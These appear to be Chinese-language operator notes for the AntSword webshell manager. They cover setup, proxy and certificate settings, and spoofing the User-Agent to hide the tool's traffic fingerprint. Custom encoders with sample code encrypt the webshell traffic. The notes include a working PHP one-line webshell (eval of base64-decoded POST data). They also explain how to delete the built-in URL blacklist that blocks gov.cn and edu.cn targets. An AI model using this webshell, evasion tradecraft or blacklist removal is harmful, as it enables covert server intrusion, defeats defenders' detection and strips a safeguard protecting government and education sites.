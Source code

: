 # AntSword

---

**中国蚁剑**

PS：使用加载器加载源码即可

```
源  码 ：https://github.com/AntSwordProject/antSword
加载器 ： https://github.com/AntSwordProject/AntSword-Loader
```

**注意事项**

```
AntSword/系统设置/代理设置/（设置代理）
AntSword/系统设置/默认设置/数据管理/忽略HTTPS证书（勾选）
AntSword/系统设置/默认设置/数据管理/小窗口右键添加请求头：（也可以通过下面修改header特征）
	name：user-agent
	value：Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
```

**修改header特征**

```
编辑数据/请求信息/(暂时修改为chrome的header)
	User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
---
也可以通过修改配置进行永久修改
/modules/request.js
const USER_AGENT = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36 '
```

**流量加密**

AntSword/编码设置/新建编码器or解码器 进行流量包的加密

webshell：eval(base64_decode($_POST['test']));  

修改默认编码器：

x.toString('') #支持hex（十六进制）、base64、binary（二进制）

```
/**
 * php::base64编码器
 * Create at: 2020/05/19 16:57:59
 */

'use strict';
/*
* @param  {String} pwd   连接密码
* @param  {Array}  data  编码器处理前的 payload 数组
* @return {Array}  data  编码器处理后的 payload 数组
*/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例
  data[pwd] = Buffer.from(data['_']).toString('base64');   //只要修改这个即可
  // ##########    请在上方编写你自己的代码   ###################
  // 删除 _ 原有的payload
  delete data['_'];
  // 返回编码器处理后的 payload 数组
  return data;
}
```

加密函数demo：（只列举可用的函数）

````
node.js:
function xor(payload){
	ext.opts.httpConf.headers['Cookie'] = 'PHPSESSID=' + key; //设置cookie
	key = key.split("").map(t => t.charCodeAt(0)); //key成数组并转成unicode编码
	cipher =cipher.map(t => String.fromCharCode(t)).join("") //unicode转成正常字符串
	btoa(字符串) //binary to ascii 也即是base64编码过程，解密atob()、
	Base64.encode(字符串)      //Base64.decode(字符串)
}
````

解密函数demo：（只列举可用的函数）

```
php:
function orz(payload){
	strlen()
	base_convert(字符串,2,16)
	pack(字符串,)
	openssl_decrypt()
	json_decode()
}
```

删除黑名单 - 提示Blacklist URL

```
/modules/config.js
urlblacklist(){
	return /(gov.cn|edu.cn)/  # ->a.cn|b.cn
}
```





**可加载插件**